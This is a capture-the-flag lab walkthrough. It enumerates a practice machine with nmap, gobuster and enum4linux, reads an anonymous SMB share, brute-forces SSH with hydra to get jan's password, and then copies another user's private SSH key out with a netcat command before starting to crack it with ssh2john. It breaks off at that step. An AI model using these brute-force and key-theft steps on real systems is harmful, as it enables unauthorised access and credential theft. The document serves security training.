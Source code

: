 ![Screenshot (160)](https://github.com/user-attachments/assets/26e78136-c3d6-4d4a-9446-37d2a0ae717f)

Begin with a port scan using nmap:
![Screenshot (161)](https://github.com/user-attachments/assets/ff43ee1e-b6a1-4eb7-9cfe-2a2ad6d1fdda)

- -sS - Half open scan

- -sV - detect service version

- --min-rate= minimum rate at which packet is sent

- -p- -  Scan all 65535 ports

  We have 6 ports open:
  ssh(22), http(8080), http(80), smb(139 & 445), ajp13(8009)

  We begin by visit the http services running on port 80, then on port 8080 to see what has been hosted.

  Visiting port 80, "ip address:80" we see this message:
  ![Screenshot (162)](https://github.com/user-attachments/assets/cefeaf7e-ffb3-4267-a77f-9204fd6cd90c)

After viewing the page source, we found nothing useful.


Visiting port 8080 with "ip address:8080". We can see it's hosting an apache server and we can se the version apache tomcat/ 9.0.7:
![Screenshot (163)](https://github.com/user-attachments/assets/c42dd0a4-bfdd-490d-81d5-887ab54c6b35)

Using gobuster to scan for hidden files and directories, a directory named /development was found, containing two files dev.txt and j.txt.
![Screenshot (166)](https://github.com/user-attachments/assets/ddb430c3-e483-4732-9f98-8f6f2383866f)

![Screenshot (164)](https://github.com/user-attachments/assets/8d3a248c-8ed4-4467-8711-e1259e8d96f5)
![Screenshot (165)](https://github.com/user-attachments/assets/5007f095-b37a-46df-9bf8-5654ce419be5)

By reading both files, we have a hint that smb and apache has been configured, and a warning telling the user that the password hashes stored in /etc/shadow were easily cracked and should be changed. Good!

Using gobuster on port 8080
![Screenshot (167)](https://github.com/user-attachments/assets/2fc27be3-05f7-4305-98cc-3dc7f64f82fb)

Nothing much to be done there.

Since we realized that the system runs a smb server, we can target that.

Firstly, we can use a tool called enum4linux to gather information about the smb server:
![Screenshot (168)](https://github.com/user-attachments/assets/b0696948-3b54-4304-932d-339523b1500e)
- a - For all information

We can also see that it has two shares hosted, which is the <b> Anonymous & IPC$</b>.

Anoymous is a disk share and we would like to take a look at that. 

A common misconfiguration in access a share is enabling anonymous access. So we can try to access the share without entering a password.

![Screenshot (169)](https://github.com/user-attachments/assets/90fd6723-1837-459d-81e6-11aa10b1548f)

We can use "smbclient" to access and list shares.

![Screenshot (170)](https://github.com/user-attachments/assets/e6109588-81c1-4fcc-b0f7-a0f874288d35)

<b> smbclient -L //ip address/share -U anonymous -p 445</b>

- - L - To list shares

- //ip address/share
  
- - U - specify username
  
-  - p - specify port number
 
  We can see have access to the share. Good! we can use ls to list the files and we found a file named staff.txt.

  Use command "get staff.txt" to get the file. Then read the content of the file.

  After that, we really can't find anything useful in the share, so we can exit out of it.

While performing enumeration using enum4linux, we found two possible usernamees:
![Screenshot (171)](https://github.com/user-attachments/assets/bd9dc699-50e6-4502-8b3d-f6828295eb08)

Jan and kay.

We can try these usernames against the ssh server running on port 22. Firstly, I will add those users to a text file and name it users.txt, then try to bruteforce the account using hydra to find the password:

![Screenshot (172)](https://github.com/user-attachments/assets/a44b1e9b-bd2b-454d-a0a3-f18a861293f2)
- -t - number of threads(fast)
-  - L - username file
-  - P - password file
-  - u - try for every user
- - f - stop on first success

![Screenshot (173)](https://github.com/user-attachments/assets/51902548-9294-42cb-ad4f-a3a6726d07a7)
We found the password for jan to be <b>armando</b>

We can use the credentials to login to the ssh server username being <b>jan</b> and password being <b>armando</b>.

Login via ssh and we should be in.
![Screenshot (174)](https://github.com/user-attachments/assets/1ddae042-dd22-47d7-b41d-14f9eaacb877)

<h2>Escalating privileges</h2>

we can change directory to /home/kay and list the files there using ls -al
![Screenshot (177)](https://github.com/user-attachments/assets/75c348f3-68ce-4b81-b8db-66d8d06fa15b)

we can see .ssh directory present which contains ssh keys.

copy content of id_rsa which is the private key or transfer the file using netcat(nc. To use nc, we need to open up another terminal, then login to jan again to have two terminals.

In jan's home directory, use "nc -lvp 2020 > id_rsa" to listen on a port for data transfer:
![Screenshot (179)](https://github.com/user-attachments/assets/1d11be83-cd36-49c5-86a7-182a651cf3ae)

We cant even create a file in our directory using touch, but we can stylishly use <b><vim/b> to create a file, we type in:

"vim filename" to edit the file, then write a random text and save with <b>:wq</b>
![Screenshot (180)](https://github.com/user-attachments/assets/b9a20fa4-caa1-4eb9-82e3-cbdd4fc572bf)


While in kay's home directory, within the .ssh directory, we will transfer the id_rsa file:
![Screenshot (181)](https://github.com/user-attachments/assets/c233ece3-f43f-4b9f-bfcd-22397ae8fdb3)

"nc -w 2 10.10.88.66 2020 < id_rsa"

-w for wait time(2 seconds).

we received the file:
![Screenshot (182)](https://github.com/user-attachments/assets/0e5661e2-620f-4a3d-b54a-f45aa321bfc6)

we can use "cat" to read the id_rsa file and we see the private key
![Screenshot (183)](https://github.com/user-attachments/assets/99e3ee72-10c8-4c35-9f46-44a52abf18c9)

Now that we have the key, we can login with it, but if we try to use the ssh private key to login, we get an error:
![Screenshot (189)](https://github.com/user-attachments/assets/e49f57af-40bf-4b9e-a958-09577ca2a1cc)
Asking us to provide the password for the key which we clearly don't have. 

If we also read the content of the private key, we can see it is protected:
![Screenshot (190)](https://github.com/user-attachments/assets/8b603d70-0787-4d49-8faa-32bc0fa87fc3)

We can crack the key using johnTheRipper which is a password cracking tool.

I'll transfer the file or copy the content of the key to my own machine for more efficiency.

Using <b>ssh2john</b> to convert a ssh key to a format compatible with john to crack the key and saving it to a new file:
![Screenshot (192)](https://github.com/user-attachments/assets/a9c7bfcd-908b-47e2-bae1-14ab347d1978)









